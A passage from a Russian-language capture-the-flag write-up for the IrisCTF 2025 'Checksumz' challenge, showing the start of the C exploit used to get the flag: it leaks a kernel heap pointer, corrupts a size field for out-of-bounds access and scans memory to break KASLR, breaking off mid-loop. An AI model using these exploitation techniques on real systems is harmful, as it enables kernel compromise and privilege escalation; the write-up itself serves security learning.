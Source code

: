 Запускаем на сервере и получаем флаг:
![](/assets/IrisCTF-Checksumz/Pasted image 20250110024519.png)

Полный эксплоит и заголовочный файл предствалены ниже, а также доступны в [нашем репозитории](https://github.com/splodev/writeups/tree/main/CTFs/IrisCTF_2025/Checksumz).

main.c
```c
#include "api.h"
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <fcntl.h>

uint64_t relative_addr = 0;

void hexdump(uint8_t* buffer, size_t size) {
    for (int i = 0; i < size; i++) {
        if (i % 16 == 0 && i != 0) {
            puts("");
        }
        printf("%02x ", buffer[i]);
    }
};

uint64_t try_break_kaslr(int fd) {
    if (fd == INVALID_FD) { 
        return -1;
    }

    uint8_t* buffer = (uint8_t*) calloc(BUF_SIZE, sizeof(uint8_t));
    read(fd, buffer, BUF_SIZE); // skip
    read(fd, buffer, BUF_SIZE - 1); // skip

    memset(buffer, 0x0, BUF_SIZE);
    read(fd, buffer, 256); // leak

    // get buffer->name pointer
    uint64_t leak_name = *(uint64_t*)(buffer + 17);
    printf("{+} heap leak name: 0x%llx\n", leak_name);

    // change size to 0xffffffffffffffff
    lseek(fd, (off_t)511, SEEK_SET);
    uint8_t write_buffer[16] = {0, 0xff,0xff,0xff,0xff,0xff,0xff,0xff,0xff, 0, 0, 0, 0, 0, 0, 0};
    write(fd, write_buffer, 16);
    
    uint64_t content_addr = 0x0;

    for (int i = 0; i < 0x10000; i += 8) {
        char tmp_buf[8] = {0};
     
        lseek(fd, (off_t)512 + i, SEEK_SET);
        read(fd, tmp_buf, 8);
        if (!strncmp(tmp_buf, "default", 7)) {
            printf("off(+): 0x%llx\n", 512 + i);
            content_addr = leak_name - 512 - i;
            break;
        }

        lseek(fd, (off_t)0 - i, SEEK_SET);
        read(fd, tmp_buf, 8);
        if (!strncmp(tmp_buf, "default", 7)) {
```